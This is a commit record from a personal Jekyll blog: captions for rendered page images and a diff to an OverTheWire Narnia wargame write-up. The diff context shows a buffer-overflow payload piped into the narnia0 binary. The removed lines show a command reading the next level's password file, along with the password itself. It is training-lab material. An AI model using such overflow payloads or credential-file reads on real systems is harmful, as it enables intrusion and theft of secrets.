

Before and after one commit to Blackhawk989/Blackhawk989.github.io, a Jekyll site: the page built from _posts/overthewire-Narnia-2022/2022-03-03-narnia.md, in a window 1280 px wide and 900 px high, scrolled down 4037 px. Shown: the whole window, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2022-03-03-narnia.md

````diff
--- a/_posts/overthewire-Narnia-2022/2022-03-03-narnia.md
+++ b/_posts/overthewire-Narnia-2022/2022-03-03-narnia.md
@@ -131,10 +131,6 @@ narnia0@narnia:/narnia$ python -c 'print "A" * 20 + "\xef\xbe\xad\xde"' | ./narn
 Correct val's value from 0x41414141 -> 0xdeadbeef!
 Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
 val: 0xdeadbeef
-whoami
-narnia1
-cat /etc/narnia_pass/narnia1
-efeidiedae
 ```
 
 There is an issue with this command since it quits out before I can access the shell, so modifying the piped command allows us to access the shell.
````
